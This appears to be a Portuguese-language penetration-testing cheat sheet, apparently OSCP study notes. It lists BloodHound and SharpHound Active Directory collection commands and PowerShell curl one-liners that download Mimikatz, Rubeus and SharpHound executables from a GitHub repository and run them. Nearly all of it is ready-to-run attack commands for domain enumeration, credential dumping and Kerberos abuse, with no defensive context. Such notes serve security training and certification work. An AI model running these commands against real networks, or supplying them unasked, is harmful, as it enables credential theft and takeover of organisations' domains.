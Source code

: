 ```
```
```
Invoke-BloodHound 
Invoke-Bloodhound -collectionmethod all
Invoke-Bloodhound -collectionmethod all -excludedc
Invoke-BloodHound -CollectionMethod ACL,ObjectProps
Invoke-Bloodhound -collectionmethod DCOnly
-CompressData -RemoveCSV and -NoSaveCache   --GERAR O ARQUIVO ZIP PARA ARRASRTAR NO BLOODHOUND
```
##### BLOODHOUND - POWERSHELL COMANDOS PREFERIDOS
```
Invoke-BloodHound 
Invoke-Bloodhound -collectionmethod all
Invoke-Bloodhound -collectionmethod DCOnly
Invoke-Bloodhound -collectionmethod Loggedon
```
##### BLOODHOUND - SHARPHOUND
```
curl https://github.com/n0ts0cial/oscp/raw/main/SharpHound.exe  -Outfile SharpHound.exe
```
```
SharpHound.exe
.\SharpHound.exe
.\SharpHound.exe --collectionmethods DCOnly
.\SharpHound.exe --collectionmethods Loggedon
.\SharpHound.exe -d moneycorp.local
```
##### BLOODHOUND - INICIAR
NA CONSOLE DE ROOT
```
neo4j console
```
NA INTERFACE GRAFICA
```
sudo bloodhound
```


# MIMIKATZ
## TECHNIQUES
##### MIMIKATZ - DOWNLOAD E EXECUTE ZIP VIA POWERSHELL
```
curl https://github.com/n0ts0cial/oscp/raw/main/mimikatz_trunk.zip -Outfile mimikatz_trunk.zip
expand-archive -path ".\mimikatz_trunk.zip" -destinationpath ".\"
cd x64
.\mimikatz.exe
```
##### MIMIKATZ - DOWNLOAD E EXECUTE EXE VIA POWERSHELL
```
curl https://github.com/n0ts0cial/oscp/raw/main/x64/mimikatz.exe -Outfile mimikatz.exe
.\mimikatz.exe
```
# RUBEUS
## TECHNIQUES
##### RUBEUS - DOWNLOAD E EXECUTE EXE VIA POWERSHELL
```
curl https://github.com/n0ts0cial/oscp/raw/main/rubeus/Rubeus.exe -Outfile rubeus.exe
.\rubeus.exe
```